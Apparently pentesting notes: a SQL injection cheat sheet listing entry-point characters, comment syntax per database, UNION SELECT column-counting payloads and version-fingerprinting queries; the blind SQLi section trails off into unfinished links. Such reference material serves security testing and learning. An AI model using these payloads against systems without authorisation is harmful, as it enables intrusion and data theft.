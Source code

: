 # SQLi

## Check for SQLi
**Determine entry point:**
```
'
"
`
')
")
`)
'))
"))
`))
```
**Add comments after quote injection:**
```sql
MySQL
-- comment [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */
PostgreSQL
--comment
/*comment*/
MSQL
--comment
/*comment*/
Oracle
--comment
SQLite
--comment
/*comment*/
HQL
HQL does not support comments
```

## Union Based SQL Injection
> If you can see the output of your SQL query then this is the best way to exploit it

**Determine number of columns:**
```sql
'' UNION SELECT null, null, null... -- 
```
**Determine number of columns for Oracle:**
```sql
'' UNION SELECT null, null... FROM dual -- 
```
**Get database version**:
```sql
MySQL, Microsoft
SELECT @@version
PostgreSQL
SELECT version()
Oracle
SELECT banner FROM v$version
SELECT version FROM v$instance
```



## Blind SQLi
If you cant see the output of your SQL query then this is the way to go ╰(*°▽°*)╯


**If it does not seem to return specific results depending on your injection...**
- ...and it does not seem to be modifying the response of the application in any way, check out 
- ...and your query triggers a boolean response from the application (i.e. 200/500, or a generic success/fail message in the page), check out